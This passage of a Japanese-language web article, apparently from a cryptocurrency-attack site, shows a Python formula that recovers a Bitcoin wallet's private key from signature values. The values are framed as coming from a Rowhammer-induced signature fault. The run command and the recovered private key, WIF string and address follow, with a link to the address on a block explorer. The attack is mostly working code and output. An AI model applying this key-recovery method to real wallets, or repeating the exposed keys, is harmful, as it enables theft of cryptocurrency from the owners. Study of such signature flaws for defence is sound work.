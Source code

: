 N = 0xfffffffffffffffffffffffffffffffebaaedce6af48a03bbfd25e8cd0364141


K = 0x79aae6b77caa2bddd8e133f963bd236f71ff15dc9b50aa1d977bc4c44689edca
R = 0xf6a4cf18e2806d4e729f7a71db5b66255499b8d25f0ee598bdf9b7b8183e4386
S = 0x48c1b699c4ac92dc3add691935b6e561d7e0ea1d7053af298c09c3e3f23e7f8f
Z = 0x51e6147848d2e81e2b6b71a5f2b29be5121752b88cc1d5e1392c001b04b4c2d9


print (h((((S * K) - Z) * modinv(R,N)) % N))</code></pre>



<h2>スクリプトは、次の式を使用して秘密鍵を計算します。</h2>



<p><code>Privkey = ((((S * K) - Z) * modinv(R,N)) % N)</code></p>



<p>スクリプトを実行しましょう:</p>



<pre class="wp-block-code"><code>python3 calculate.py</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-148.png" alt="署名フォルトを使用して Bitcoin ウォレットの秘密鍵を取得する方法 (Bitcoin に対する Rowhammer 攻撃)" class="wp-image-1259"/></figure>



<p><code>PrivKey = 86990adfdb019df305b4d38a963c9f46a1fbeac332285d122b0e2f888de31fba</code></p>



<p><strong><a href="https://cryptodeep.ru/bitaddress.html" target="_blank" rel="noreferrer noopener">ビットアドレス</a></strong>を開いて確認しましょう：</p>



<pre class="wp-block-code"><code>ADDR: 18hhdfynnojmiMmBMsrkXNFWketq4mmDHB
WIF:  L1jMLZYkKr2YoTLH9xWXS9jPMgeasnTxWmGrHBK9aMCW9ahsNDzP
HEX:  86990adfdb019df305b4d38a963c9f46a1fbeac332285d122b0e2f888de31fba</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/002-1.png" alt="署名フォルトを使用して Bitcoin ウォレットの秘密鍵を取得する方法 (Bitcoin に対する Rowhammer 攻撃)" class="wp-image-1263"/></figure>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<figure class="wp-block-embed"><div class="wp-block-embed__wrapper">
https://www.blockchain.com/btc/address/18hhdfynnojmiMmBMsrkXNFWketq4mmDHB
</div></figure>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<p><code>Приватный ключ найден!</code></p>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-150-1024x445.png" alt="署名フォルトを使用して Bitcoin ウォレットの秘密鍵を取得する方法 (Bitcoin に対する Rowhammer 攻撃)" class="wp-image-1266"/><figcaption class="wp-element-caption"><strong><a href="https://www.blockchain.com/btc/address/18hhdfynnojmiMmBMsrkXNFWketq4mmDHB" target="_blank" rel="noreferrer noopener"><code>www.blockchain.com/btc/address/18hhdfynnojmiMmBMsrkXNFWketq4mmDHB</code></a></strong></figcaption></figure>
